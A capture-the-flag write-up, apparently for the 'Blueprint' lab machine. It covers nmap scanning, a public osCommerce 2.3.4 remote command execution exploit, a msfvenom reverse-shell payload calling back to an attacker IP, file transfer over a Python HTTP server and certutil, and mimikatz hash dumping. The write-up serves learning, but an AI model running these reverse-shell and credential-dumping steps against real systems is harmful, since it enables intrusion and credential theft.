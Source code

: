 # Blueprint
## Scanning and Enumeration
### Nmap
![nmap](images/nmap.png)

- **Apache:**
  - 80: 404
  - 443/8080 Open

- **Smb**

### Web
![oscommerce](images/apache.png)

Let's look online for an exploit!

## Exploitation

https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution

![RCE shell](images/rce.png)

RCE doesn't allow us to move and use normal commands. Now we have to get better shell.

## Post-Exploitation

Let's create a payload to get normal shell access with `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.39.178 LPORT=8888 -f exe > shell-x86.exe
```

We open a port and get the file from the RCE shell.

Host:

```bash
python3 -m http.server 8000
```

Victim:

![fetch files](images/certutil.png)

Now we listen to port `8888` on host and execute `shell-x86.exe` from the RCE shell.

![Get shell](images/get_shell.png)

And we are Administrator already.

### Finding hashes
To get the hashes of the pc we can use tools like `mimikatz` or `fpdump`. We can get both files to the victim using the same `certutil` command as before.

Execute `mimikatz` and we get the hashes:

![mimikatz](images/mimikatz.png)

And we crack the MD5 hashes (I use [HackStation](https://crackstation.net/)).